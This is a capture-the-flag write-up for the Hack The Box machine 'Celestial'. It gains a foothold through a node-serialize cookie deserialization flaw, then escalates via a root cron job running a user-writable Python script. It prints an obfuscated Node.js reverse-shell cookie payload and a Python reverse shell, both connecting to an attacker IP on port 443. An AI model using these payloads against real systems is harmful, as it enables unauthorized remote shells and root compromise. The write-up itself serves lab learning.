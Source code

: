 # Celestial Write Up

> - node.js de-serialize issue lead to shell
> - crontab for root

## Enumeration

I started off with a masscan for all 65535 ports and follow it up by nmap

```
root@kali:~/Desktop/HTB/Celestial# nmap -sS -sV -sC -p 3000 10.10.10.85      

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-25 22:22 +08
Nmap scan report for 10.10.10.85
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds

```

Important information we got the scan was, port 3000 is running `node.js` 

A simple curl command return the following.

```
root@kali:~/Desktop/HTB/Celestial# curl -vvv 10.10.10.85:3000
* Rebuilt URL to: 10.10.10.85:3000/
*   Trying 10.10.10.85...
* TCP_NODELAY set
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.60.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 25 Aug 2018 14:38:22 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Sat, 25 Aug 2018 14:23:22 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>r
```

Note the `cookie`

```
profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

%3D decode to `=` which tell us that this is a base64 string. 

This show us that we are setting a cookie with name `profile` of the following value

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

By playing around with the json. I managed to get some errors

![errors](https://raw.githubusercontent.com/lycjackie/boot2root/master/images/celestial.png)

with some googling, I managed to find a nodejs shell code. https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

So the final payload for the cookie look something like this

```
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```



### Getting Root

Once I am in the system. The first suspicious file I see was

```
sun@sun:~$ ls -la
ls -la
total 152
...
-rw-r--r--  1 root root   21 Aug 25 10:30 output.txt
sun@sun:~$ date
date
Sat Aug 25 10:36:10 EDT 2018
```

This particular file in sun `home` directory is owned by root and the `date` command show that the system time is only 1 min after modification of the file. Which lead me to think that there is a cronjob running as root behind.



After playing around with the home directory. I found the following

```
sun@sun:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4 15:08 .
drwxr-xr-x 21 sun sun 4096 Aug 25 10:01 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
cat script.py
print "Script is running..."
sun@sun:~/Documents$ cat ../output.txt
cat ../output.txt
Script is running...

```

Note that the content of `output.txt` is identical to `script.py`. Which lead me to think that maybe root is running the script periodically.

Also note that we own the file for `script.py` which also mean that we can write anything into the file.

So using our favorite pentest monkey reverse shell for python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.144",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

and 5 mins of waiting. 

I managed to get root

```
root@sun:~# wc -c root.txt
wc -c root.txt
33 root.txt
root@sun:~# whoami
whoami
root
root@sun:~# 
```



### FIN

After getting root. `crontab -l` show the following

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py

```




